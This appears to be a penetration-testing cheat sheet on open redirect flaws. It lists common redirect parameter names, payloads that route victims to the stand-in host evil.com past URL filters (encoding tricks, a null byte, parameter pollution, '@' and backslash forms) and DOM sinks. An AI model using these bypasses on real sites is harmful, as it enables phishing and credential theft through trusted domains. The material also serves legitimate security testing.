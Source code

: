 ```yaml
---
title: Open redirect
description: Attacker redirects a user to an external URL
---
```

## Exploit
### Common injection parameters
```css
/
?next
?url
?target
?rurl
?dest
?destination
?redir
?redirect_uri
?redirect_url
?redirect
/redirect/
/cgi-bin/redirect.cgi?
/out/
/out?
?view
/login?to
?image_url
?go
?return
?returnTo
?return_to
?checkout_url
?continue
?return_path
success
data
qurl
login
logout
ext
clickurl
goto
rit_url
forward_url
@https://
forward
pic
callback_url
jump
jump_url
click?u
originUrl
origin
Url
desturl
u
page
u1
action
action_url
Redirect
sp_url
service
recurl
j?url
url//
uri
u
allinurl:
q
link
src
tc?src
linkAddress
location
burl
request
backurl
RedirectUrl
Redirect
ReturnUrl
```
### Bypass blacklist
`http` blacklist bypass:

```css
//evil.com
```

`//` blacklist bypass:
```css
https:evil.com
```
Using `//` to bypass `//` blacklisted keyword (Browsers see `//` as `//`)
```css
\/\/evil.com/
/\/evil.com/
```
Using `/` to bypass:
```css
/\evil.com
```

URL encode Unicode full stop 。
```css
//evil%E3%80%82com
```

Null byte
```css
//evil%00.com
```
Parameter pollution
```css
?next=whitelisted.com&next=evil.com
```
Using "@" character, browser will redirect to anything after the "@"
```css
http://www.theirsite.com@evil.com/
```
### DOM based
View the page source. Common sink for open redirect:
```js
location
location.host
location.hostname
location.href
location.pathname
location.search
location.protocol
location.assign()
location.replace()
open()
element.srcdoc
XMLHttpRequest.open()
XMLHttpRequest.send()
jQuery.ajax()
$.ajax()
```
